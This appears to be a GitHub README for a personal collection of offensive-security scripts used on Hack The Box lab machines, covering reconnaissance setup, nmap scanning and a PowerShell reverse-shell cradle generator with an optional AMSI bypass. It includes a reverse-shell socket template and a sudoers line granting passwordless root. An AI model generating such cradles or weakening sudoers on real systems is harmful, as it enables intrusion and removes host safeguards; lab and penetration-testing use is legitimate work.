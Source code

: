# scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-urllib3 python3-watchdog

# Clone repo
git clone https://github.com/Mojo8898/scripts.git ~/scripts

# Make nmap wrapper script executable
chmod +x ~/scripts/scan_machine.py
```

Some automated scripts including the built-in nmap mapper require sudo to run properly. Add the following line to the bottom of your /etc/sudoers file (using `visudo`) to prevent password prompts.

```
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn -a -u bob -p 'Password123!'
```

### scan_machine.py

```bash
python3 ~/scripts/scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
python3 ~/scripts/scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
python3 ~/scripts/cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
